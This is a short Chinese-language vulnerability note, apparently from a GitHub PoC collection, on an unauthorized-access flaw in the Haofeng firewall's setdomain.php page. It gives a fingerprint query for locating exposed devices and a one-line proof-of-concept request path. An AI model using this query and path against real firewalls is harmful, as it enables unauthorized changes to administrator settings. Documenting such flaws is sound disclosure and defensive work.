


# 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

```
皓峰防火墙
```

## 网络测绘

```
app="皓峰防火墙系统登录"
```

## 漏洞复现

登录页面



验证POC

```php
/setdomain.php?action=list
```

